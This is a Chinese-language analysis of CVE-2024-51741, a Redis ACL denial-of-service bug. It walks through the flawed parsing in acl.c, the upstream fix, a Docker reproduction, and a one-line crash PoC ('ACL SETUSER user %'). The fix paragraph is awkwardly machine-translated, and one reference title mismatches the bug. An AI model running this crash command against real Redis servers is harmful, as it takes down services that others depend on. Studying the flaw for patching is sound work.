



# CVE-2024-51741 CWE-20 Redis DoS

## 漏洞背景

- **Redis**：一个key-value 存储系统，是跨平台的非关系型数据库。开源的内存数据库，提供了一个高性能的键值（key-value）存储系统，常用于缓存、消息队列、会话存储等应用场景。客户端通过套接字与 Redis 服务器通信，发送命令，服务器更改其状态（即其内存结构）以响应此类命令。
- **ACL（Access Control List，访问控制列表）** 是 Redis 用于用户权限管理的一套机制，它允许管理员为不同用户精细地控制命令和数据访问权限。通过 ACL，Redis 可以限制用户执行特定命令、访问特定键或键模式，以及订阅特定频道，从而提高系统安全性。`~` 用于分隔权限标志和键模式（`%R~app:*`表示对所有匹配 `app:*` 的键，用户拥有**只读权限**。）。如果单独使用 `~`（没有 `%R` 或 `%W`），表示这个选择器适用于所有键，并赋予全部权限（读+写）。
- **CWE-20（Improper Input Validation 输入验证不当）** 指的是在程序中没有适当检查或验证输入数据的有效性和安全性，导致不受控制的输入被处理或执行。这种漏洞可能允许攻击者向系统提供恶意输入，进而导致意外的行为、数据泄露、权限提升或执行未授权的操作。在大多数情况下，输入验证不足使得攻击者能够绕过安全机制，利用程序漏洞进行攻击。

## 漏洞原理

Redis 处理 ACL 选择器时，对 `%` 操作符后的权限字符缺乏充分的验证。当构造一个只有 `%` 的规则时，由于没有有效的权限字符（如 `R` 或 `W`），权限标志 `flags` 保持为零，导致后续处理时触发断言或错误，最终引发服务器崩溃。这个问题源于代码对 `%` 后权限字符的处理不完全，未能有效地验证和处理无效的输入，从而导致了拒绝服务（DoS）攻击的风险。

## 漏洞定位

分析 Redis-7.2.0 源码：

在 src/acl.c 文件负责实现 Redis 的 ACL 系统，用于控制用户对命令和键的访问权限。

在 `flags` 为 0 时，若规则中出现 `%`，`flags` 会保持为初始值 0，导致 `flags` 没有被正确设置。最终在 `sdsCatPatternString` 中使用未初始化或无效的 `flags`，引发断言崩溃。

1. 第 299 行 sdsCatPatternString 函数用于生成与访问控制列表（ACL）规则相关的键模式。其中如果 flag 不满足三个 if 条件，则会进入第 307 行的 else 分支的断言，引发崩溃。

   ```c
   // src/acl.c 文件，299 行
   sds sdsCatPatternString(sds base, keyPattern *pat) {
       if (pat->flags == ACL_ALL_PERMISSION) {
           base = sdscatlen(base,"~",1);
       } else if (pat->flags == ACL_READ_PERMISSION) {
           base = sdscatlen(base,"%R~",3);
       } else if (pat->flags == ACL_WRITE_PERMISSION) {
           base = sdscatlen(base,"%W~",3);
       } else {
           // 307 行
           serverPanic("Invalid key pattern flag detected");
       }
       return sdscatsds(base, pat->pattern);
   }
   ```

2. 第 1010 行的 ACLSetSelector 函数用于设置访问控制列表（ACL）选择器，分析用户提供的选择器规则，识别其中的命令、键模式和权限设置。

   其中第 1041 行用于处理以 `~` 或 `%` 开头的规则，首先根据规则首字符(op[0])分出基本块，注意到处理 % 规则符时，会进入一个循环，在此循环中给 flags 赋值，其中的第 1046 行会给 flags 赋值 0，这里的 flags 就是 sdsCatPatternString 索引的对象。

   第 1048 行允许在 ACL 选择器中使用 `%`，代码会对后续的字符进行循环遍历，匹配权限字符（如 `R`、`W`），并根据匹配的字符设置权限标志 `flags`。当构造一个只有 % 的规则时，由于所有 if 语句都不匹配，即没有匹配任何有效的权限字符，这会导致**直接跳出循环**，并结束对 % 的处理，但是此时 flags 仍然为 0。在这种情况下，由于没有权限被设置，`flags` 的值仍然为零，这会导致后续调用 `sdsCatPatternString` 函数时触发断言，从而引发崩溃。

   ```cpp
   // src/acl.c 文件，第 1010 行
   int ACLSetSelector(aclSelector *selector, const char* op, size_t oplen) {
       
       // ... ...
       
       // 1041 行
       else if (op[0] == '~' || op[0] == '%') {
               if (selector->flags & SELECTOR_FLAG_ALLKEYS) {
                   errno = EEXIST;
                   return C_ERR;
               }
           // 1046 行 ***** 给flags赋值
               int flags = 0;
               size_t offset = 1;
           // ***** 1048 ***** 如果规则以 % 开头，表示键的读写权限 *****
               if (op[0] == '%') {
                   for (; offset < oplen; offset++) {
                       if (toupper(op[offset]) == 'R' && !(flags & ACL_READ_PERMISSION)) {
                           flags |= ACL_READ_PERMISSION;
                       } else if (toupper(op[offset]) == 'W' && !(flags & ACL_WRITE_PERMISSION)) {
                           flags |= ACL_WRITE_PERMISSION;
                       }else if (op[offset] == '~') {
                           offset++;
                           break;
                       } else {
                           errno = EINVAL;
                           return C_ERR;
                       }
                   }
               } else {
                   flags = ACL_ALL_PERMISSION;
               }
           
       // ... ...
       
   }
   ```


## 漏洞修复


介绍 `perm_ok` 旗帜。 如果一个无效的字符( 即既不是) `R`， `W`,或 `~`在环中遇到， `perm_ok` 设置为 `0`,这意味着权限设置不正确。 在周期结束时,检查 `flags` 和 `perm_ok` 将添加。

```c
if (op[0] == '%') {
    // Introducing the perm_ok logo
            int perm_ok = 1;
            for (; offset < oplen; offset++) {
                if (toupper(op[offset]) == 'R' && !(flags & ACL_READ_PERMISSION)) {
                    flags |= ACL_READ_PERMISSION;
                } else if (toupper(op[offset]) == 'W' && !(flags & ACL_WRITE_PERMISSION)) {
                    flags |= ACL_WRITE_PERMISSION;
                } else if (op[offset] == '~') {
                    offset++;
                    break;
                } else {
                    perm_ok = 0;
                    break;
                }
            }
            if (!flags || !perm_ok) {
                errno = EINVAL;
                return C_ERR;
            }
        } else {
            flags = ACL_ALL_PERMISSION;
        }
}
```

## 影响范围


Redis：

- 7.0.0 至 7.2.7
- 7.4.0 至 7.4.2

## 环境搭建

启动 Docker 环境，Redis 版本为 7.2.0

```txt
CNA:GitHub, Inc.    Base Score:4.4 MEDIUM    Vector:CVSS:3.1/AV:A/AC:L/PR:L/UI:N/S:U/C:N/I:N/A:L
```

```txt
cpe:2.3:a:redis:redis:7.2.0:*:*:*:*:*:*:*
```



## 漏洞复现

1. 进入容器命令行，连接 Redis

   ```bash
   docker exec -it redis-7.2.0 redis-cli -h 127.0.0.1 -p 6379 
   ```

2. 执行 PoC 语句，可以看到 Redis 服务器关闭了连接

   ```bash
   ACL SETUSER user %
   
   ACL GETUSER user
   ```

   

3. 查看容器日志，可以发现 PoC 在 src/acl.c:307 引发了崩溃

   ```bash
   docker logs redis-7.2.0 
   ```

   

## PoC分析


```bash
# Set the permissions of user users in Redis
ACL SETUSER user %

# View user permissions
ACL GETUSER user
```

## 参考链接


[NVD - CVE-2024-51741](https://nvd.nist.gov/vuln/detail/CVE-2024-51741)

[Fix Read/Write key pattern selector (CVE-2024-51741) · redis/redis@4a95b30](https://github.com/redis/redis/commit/4a95b3005a140165bbb9df373ba61f775c936554#diff-293549564fd88cb91b050b4a60becde90b1f7a421f1414d6e4c592e0f7cddbbb)

[Redis Vulnerability Analysis, ACL Section_The cause of the vulnerability is that Redis did not strictly validate the input string when handling hyperloglog operations. - CSDN Blog](https://blog.csdn.net/2503_90751938/article/details/147799252)
